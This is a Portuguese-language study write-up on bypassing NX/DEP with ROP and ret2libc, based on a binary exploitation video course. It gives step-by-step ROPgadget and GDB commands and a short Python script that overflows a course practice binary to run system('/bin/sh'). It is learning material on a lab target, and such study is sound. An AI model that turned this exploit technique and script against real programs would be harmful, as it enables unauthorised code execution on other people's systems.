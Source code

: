 ```yaml
---
layout: post
title: bypass NX/DEP do CEB(mentebinaria)
date: 2024-01-10
description: binary exploitation
categories: bin-exp
---
```


### Bypass NX/DEP

### Esse texto reúne o que aprendi sobre bypass de NX juntando as video aulas do curso CEB(https://www.youtube.com/playlist?list=PLIfZMtpPYFP4MaQhy_iR8uM0mJEs7P7s3) de exploração de binarios. Aula do 07 a 14.

Primeiro vamos a uma breve introdução sobre o NX ou também conhecido como DEP(Data Execution Prevention):

O NX/DEP é uma técnica de mitigação de exploração usada para garantir que apenas segmentos de código são sempre marcados como executáveis...

Ok, mas como assim somente segmentos de código marcados como executáveis??

Bom, vamos lá. Nos writeups anteriores vimos que para explorar os binários, usamos a técnica de Buffer-overflow para sobrescrever um endereço de retorno e, logo depois dessa sobrescrita, jogamos algum shellcode na stack, para assim ganharmos controle sobre o fluxo de execução do binário. Essa exploração só é possível porque o binário em questão foi compilado com a flag ``` -z execstack ``` que desabilita a proteção NX.

Agora com a proteção ativada, as areas da stack e heap NÃO possuem permissão de execução. Sendo assim, não será possível realizar a exploração jogando algum shellcode na stack, porque simplesmente não será executado (e provavelmente resultara em um SEGFAULT).

Sabendo disso, vamos para a parte do bypass...

### Bypass

* "If you can’t inject (shell)code to do your bidding, you
must re-use the existing code!" RPISEC - MBE lecture_07

Se você não pode injetar código... reutilize o código existente.


O bypass mais conhecido para o NX é o ROP ```(Return Oriented Programming)```. ROP é uma técnica para reutilizar código/instruções existentes em um binário para montar algo malicioso. Outros termos conhecidos são ``` ROPgadgets/Gadgets ``` e ``` ROPchain ```.

Os ``` ROPgadgets ``` ou só ``` Gadgets ``` basicamente são instruções presentes na memória do binário, que não fazem parte da execução da ```main```, mas podem ser utilizadas porque são parte da execução do binário (e geralemente terminam com uma instrução ```RET```). Esses gadgets podem ser usados para montar instruções maliciosas semelhante a um shellcode. A junção desses gadgets é chamada de ``` ROPchain ```.


### Tudo bem, ja sabemos o que é o NX e qual tecnica é usada para "bypassa-lo". Agora vamos para a demonstração:

A ideia é a seguinte: já que não podemos executar um shellcode através da stack, temos que executar algo parecido, então vamos usar a técnica ```ret2libc```. Essa técnica consiste em fazer o binário chamar funções da libc usando os endereços de memória carregados pelo próprio binário em tempo de execução. 

Para o exemplo chamaremos a função ```system()```, e como a função system() sem argumentos não faz nada, vamos passar pra ela a string ```"/bin/sh"``` . Dessa forma temos algo parecido com um shellcode.

### Step by step da exploração

#### 1 - O binário usado de exemplo nas aulas era vulneravel a um B.O.F, então a primeira coisa a fazer é estourar o buffer e controlar algum endereço de retorno.


#### 2 - Depois de explorar o B.O.F precisamos saber qual ```Gadget``` pode ser usado de forma maliciosa. Para isso vamos usar a tool ROPgadget (https://github.com/JonathanSalwan/ROPgadget) .

Vamos procurar ```gadgets``` filtrando por ```"pop rdi"```. Porque os registradores ```RDI``` e ```RSI``` são usados para passagem de argumentos na arquitetura de 64 bits. Para que o argumento "/bin/sh" seja passado para a função system ele precisa estar em algum desses registradores.

Rodando a tool e analisando a saida, vemos a instrução que precisamos:

```sh
$ ROPgadget --binary aula_13 --ropchain | grep "pop"

...

0x00000000004011ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004011af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401109 : pop rbp ; ret
0x00000000004011b3 : pop rdi ; ret 	<====== essa aqui
0x00000000004011b1 : pop rsi ; pop r15 ; ret
0x00000000004011ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

Deixe o endereço separado e vamos para o próximo passo.


#### 3 - Agora precisamos achar o endereço da string ```"/bin/sh"``` na memória a qual o binário tem acesso em tempo de execução. 

Para isso vamos rodar o binário no GDB, setar um breakpoint qualquer e logo depois da execução parar no breakpoint, vamos buscar pela string "/bin/sh" da seguinte forma: ``` gdb-peda$ find "/bin/sh" ```

```sh
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7f745bd --> 0x68732f6e69622f ('/bin/sh')
```

Deixe esse endereço separado também e vamos para o próximo passo.



#### 4 - A ultima das nossas buscas será pelo endereço da função ```system()```. Fazendo da mesma forma que o endereço de "/bin/sh".

Rode o binário no GDB, sete um breakpoint qualquer e logo depois da execução parar no breakpoint, busque pelo endereço da seguinte forma: ``` gdb-peda$ p system ```


```sh
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7e12290 <__libc_system>
```


#### 5 - Depois de ter os endereços necessários vamos montar o script do exploit:


```py
import struct

buf = b""
buf += b"A"*88                              #JUNK
buf += struct.pack("<Q", 0x4011b3)      #POP RDI; RET;
buf += struct.pack("<Q", 0x7ffff7f745bd)    #POINTER TO "/bin/sh"
buf += struct.pack("<Q", 0x7ffff7e12290)    #SYSTEM ADDR

f = open("exp", "wb")
f.write(buf)
```


#### 6 - Agora com tudo pronto vamos executar o exploit e ver como tudo funciona:


* RET sobrescrito com o Gadget

![nx1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx1.png)


* O "/bin/sh" seguido pela função system na stack

![nx2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx2.png)


* "/bin/sh" passado para o registrador RDI

![nx3](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx3.png)


* entrando na função system 

![nx4](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx4.png)


* GDB termina execução e sai startando um novo processo

![nx5](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx5.png)


* rodando a exploração fora do GDB

![nx6](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/bpnx6.png)

